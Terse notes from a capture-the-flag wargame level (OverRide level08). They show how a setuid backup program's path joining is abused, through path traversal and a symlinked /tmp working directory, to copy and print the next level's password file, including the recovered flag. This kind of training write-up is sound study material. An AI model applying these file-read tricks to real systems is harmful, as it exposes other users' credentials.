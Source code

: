 level08@OverRide:~$ ./level08 "../../../../home/users/level09/.pass"
ERROR: Failed to open ./backups/../../../../home/users/level09/.pass


- opens backups/.log to write logs
- opens target file to read content with av[1]
- opens target file to write flag with strncat("./backups", av[1], strlen(av[1]))

strncat 

buffer 100

"./backups" (9)

+ 

"../../../../home/users/level09/.pass" (36)

"../../../../../../../../../../../../../../../../../../../../../../../../../../../../home/users/level09/.pass"


level08@OverRide:~$ ./level08 ".pass"
level08@OverRide:~$ ls -la backups/
total 8
drwxrwx---+ 1 level09 users    80 Nov 22 18:06 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    66 Nov 22 18:08 .log
-r--r-----+ 1 level09 users    41 Nov 22 18:06 .pass
level08@OverRide:~$ cat backups/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC


```
level08@OverRide:/tmp$ ls -la
total 0
drwxrwxrwt 4 root    root    120 Nov 23 08:49 .
drwxr-xr-x 1 root    root    220 Nov 23 08:31 ..
drwxrwxrwx 3 level08 level08 100 Nov 23 08:45 backups
drwxrwxr-x 3 level08 level08  60 Nov 23 08:33 home
lrwxrwxrwx 1 level08 level08  27 Nov 23 08:48 level08 -> /home/users/level08/level08
lrwxrwxrwx 1 level08 level08  25 Nov 23 08:49 .pass -> /home/users/level09/.pass
```
